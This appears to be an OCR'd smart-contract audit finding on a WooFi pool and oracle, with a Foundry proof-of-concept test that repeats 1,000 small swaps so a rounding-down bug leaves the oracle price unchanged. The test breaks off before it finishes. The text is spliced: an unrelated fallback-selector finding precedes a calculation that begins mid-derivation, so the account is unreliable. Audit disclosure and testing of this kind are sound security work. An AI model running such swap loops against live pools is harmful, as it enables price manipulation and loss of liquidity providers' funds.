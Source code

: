 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
= 1e10 * 0.01 * 1e8 * 0.000000001 * 1e18 / 1e8 / 1e18
= 0 due to round down

let's calculate the `quoteAmount` will be received:
quoteAmount =
                (((baseAmount * state.price * decs.quoteDec) / decs.priceDec) *
                    (uint256(1e18) - gamma - state.spread)) /
                1e18 /
                decs.baseDec;
(1e10 * 0.01 * 1e8 * 1e18 / 1e8) * (1e18 - 0 - 0.01 * 1e18) / 1e18 / 1e18
= 99900000 which is not "0". 

let's calculate the new price:
newPrice = ((uint256(1e18) - gamma) * state.price) / 1e18;
= (1e18 - 0) * 0.01 * 1e8 / 1e18 = 0.01 * 1e8
**which is the same price, no price changes!** 

That would also means if the "gamma" is "0", then this is the best possible swap outcome. If a user does this in a for loop multiple times in a cheap network, user can trade significant amount of tokens without changing the price. 

**Coded PoC (values are the same as in the above textual scenario):**
```solidity
function test_SwapsHappenPriceIsNotUpdatedDueToRoundDown() public {
        // USDC --> DAI address, mind the naming..
        uint usdcAmount = 1_000_000 * 1e18;
        uint wooAmount = 100_000 * 1e18;
        uint wethAmount = 1_000 * 1e18;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, wooAmount);
        deal(WETH, ADMIN, wethAmount);

        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        IERC20(WETH).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        pool.depositAll(WETH);
        vm.stopPrank();

        uint wooAmountForTapir = 1e10 * 1000;
        vm.startPrank(TAPIR);
        deal(WOO, TAPIR, wooAmountForTapir);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        IERC20(WETH).approve(address(router), type(uint256).max);
        vm.stopPrank();

        // WHERE THE MAGIC HAPPENS
        (uint128 price, ) = oracle.woPrice(WOO);
        console.log("price", price);
        
        uint cumulative;
        for (uint i = 0; i < 1000; ++i) {
            vm.prank(TAPIR);
            cumulative += router.swap(WOO, USDC, wooAmountForTapir / 1000, 0, payable(TAPIR), TAPIR);
        }

        (uint128 newPrice, ) = oracle.woPrice(WOO);
        console.log("price", price);

````